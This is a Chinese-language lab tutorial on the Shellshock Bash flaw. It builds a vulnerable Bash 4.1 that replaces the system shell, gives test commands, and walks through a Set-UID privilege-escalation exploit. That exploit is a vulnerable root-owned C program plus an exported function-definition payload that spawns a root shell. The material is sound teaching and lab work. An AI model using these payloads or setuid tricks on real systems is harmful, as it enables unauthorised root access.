

# Shellshock攻击

## 背景

2014年9月24日，Bash程序被发现存在一个严重的安全漏洞。攻击者可以利用该漏洞在被影响的服务器上执行任意代码。这个严重的安全漏洞被称为
Shellshock漏洞。

## 漏洞原理

Bash源代码variables.c这个文件中有下面这段代码：
  
这个函数的作用是读取环境变量的值并转换成函数，由于他只判断了值的头没有判断尾，故只要在尾部加入攻击语句就会执行

## 测试方法

方法一：
```bash
export foo='() { echo "hello world"; }; echo "extra";'
bash
```
方法二：
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test "
```

## 环境搭建

```bash
sudo apt-get update
sudo apt install gcc make -y  
wget http://ftp.gnu.org/gnu/bash/bash-4.1.tar.gz tar xf bash-4.1.tar.gz
cd bash-4.1
./configure
make
sudo make install
sudo rm /bin/bash
ln -s /usr/local/bin/bash /bin/bash
```

## 攻击Set-UID获取root权限

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

void main()
{
    setuid(geteuid());
    system("/bin/ls -l");
}
```
```bash
sudo ln -sf /bin/bash /bin/sh
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo hello; }; /bin/sh'
./vul
```
就得到root权限的shell：


!!! Note

    system()函数原理：system会调用fork()函数创建子进程，然后使用execl()函数执行/bin/sh程序，
    最终请求shell程序执行/bin/ls指令。


!!! warning

    如果用vagrant创建的虚拟机，注意/vagrant目录下是不能chown成root的，必须换一个目录  
    输入函数时注意大括号前后有空格  
